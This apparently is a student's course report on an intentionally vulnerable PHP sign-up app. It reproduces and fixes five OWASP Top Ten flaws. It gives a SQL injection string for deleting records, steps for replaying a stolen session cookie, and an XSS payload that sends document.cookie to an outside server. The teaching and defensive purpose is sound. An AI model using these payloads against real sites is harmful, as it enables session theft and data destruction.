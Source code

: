 # The Report

This project is done with PHP in a LAMP environment.<br> 
The requirements:

1. Windows, OS X or Linux as the host
2. OWASP ZAP
3. Firefox with the Advanced Cookie Manager add-on
4. VirtualBox
5. Debian as a virtual machine

See https://github.com/j0ly/firstproject/blob/master/README.md for installation instructions.

There are more problems with this code besides those which I have mentioned and provided a fix for here below. And regarding the suggested fixes, I know that there are many things that could be done to further improve the security. But I had to draw the line somewhere. The task was to have at least 5 OWASP Top Ten vulnerabilies, and to provide a fix for them, which I think I have done.


The OWASP vulnerabilities:

## A1-Injection

The content of the database can be deleted using SQL injection.

### How to identify 
1. Sign up some users to the event. Check from the Admin page. 
2. Then go to the Cancel page and enter: ```' OR '1'='1```. 
3. All the sign-ups are now gone, as you can see from the Admin page!    

### How to fix
Add this after line 14 in delete.php;

```$ticket = mysqli_real_escape_string($conn, $ticket);```

## A2-Broken Authentication and Session Management
The cookie-session-id, which is used for authentication, is sent over an unencrypted connection.<br>

### How to identify
You can get access to the Admin pages using an eavesdropped cookie-session-id like this:

1. Start OWASP ZAP and configure the proxy settings in the browser (see [README.md](README.md#owasp-zap)).
2. Go to the Admin pages, look who have signed up, and then click the "home" link.
3. You're now back at the starting page, which doesn't use SSL.
4. But with OWASP ZAP you can see that the session-cookie is still in use (see [README.md](README.md#owasp-zap)). If someone would have the possibility to eavesdrop, they could now steal the cookie-session-id!
5. Copy the cookie-session-id to simulate this situation!
  * And if you were using the Firefox browser for this, restart it before the next step...
6. Go to the Admin login-page with Firefox, but don’t log in! 
7. Open “Advanced Cookie Manager” and paste the cookie-session-id into the "Value" box (see [README.md](README.md#advanced-cookie-manager-for-firefox)). 
  * Note: You have to  delete the old one first, otherwise you will not be able to save the change.
8. Open the Event X start page, click the "Admin" link, and you’re in without entering credentials!

### How to fix
Force HTTPS for the whole server;

1. In /etc/apache2/sites-available/000-default.conf, add this line after the "DocumentRoot" line (modify "yourserver" to match the IP of your server); 
  * ``` Redirect permanent / https://yourserver/ ``` 
2. Restart Apache with this command; ``` apachectl restart ```

## A3-Cross-Site Scripting (XSS)
The XSS code can be entered on the SignUp page, and executed on the Admin page when listing the sign-ups. 
### How to identify
1. Enter this code into the address field on the SignUp page;

   ```<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>```

2. Go to the Admin pages and take a look at the sign-ups.
3. The session-id should now be written to the Apache logs of “yourserver”, which you can see with the "cat /var/log/apache2/access.log" command ("yourserver" would normally be an other server, that the hacker has access to). 

or 

1. Enter this code to any of the fields on the SignUp page; 

   ```<body onload=alert('hello')>```

2. You will then receive a "hello" greeting, when looking at the sign-ups.

### How to fix
In done.php you can find these lines;
```
$fname = $_POST["name"];
$faddress = $_POST["address"];
$creditcard = $_POST["creditcard"];
```
Replace them with these lines;
```
$fname = clean($_POST["name"]);
$faddress = clean($_POST["address"]);
$creditcard = clean($_POST["creditcard"]);

function clean($data) {
  $data = trim($data);
  $data = stripslashes($data);
  $data = htmlspecialchars($data);
  return $data;
}
```

## A6-Sensitive Data Exposure
Credit card numbers are sent in cleartext with POST, over an unencrypted connection.

### How to identify

1. Go to the SignUp page and fill in the requested information, including a (imaginary) credit card number.
2. Press Submit
3. With OWASP ZAP you can now see that the credit card number was sent over an unencrypted http connection (see [README.md](README.md#owasp-zap)).

### How to fix: 
Force HTTPS for the whole server (see the A2-fix)! 

## A7-Missing Function Level Access Control
The database credentials are stored in an easy to guess plaintext config file, inside the web-root, and is lacking access control.
### How to identify
Modify “yourserver” in this link to match your installation; http://yourserver/firstproject/admin/config.ini.<br> 
Then open this link with your browser, and you should see the credentials.

### How to fix
Deny access to the config.ini file. 

There is already a .htaccess file in the admin folder that should do that, but Apache does not by default enable the use of .htaccess files. To enable, do this:

  Open /etc/apache2/apache2.conf in an editor, and find these lines;
  ```
  <Directory /var/www/>
        Options Indexes FollowSymLinks
        AllowOverride None
        Require all granted
  </Directory>
  ```
  Change “AllowOverride None” to “AllowOverride All”. Run the command “apachectl restart”, and try to open the link again.
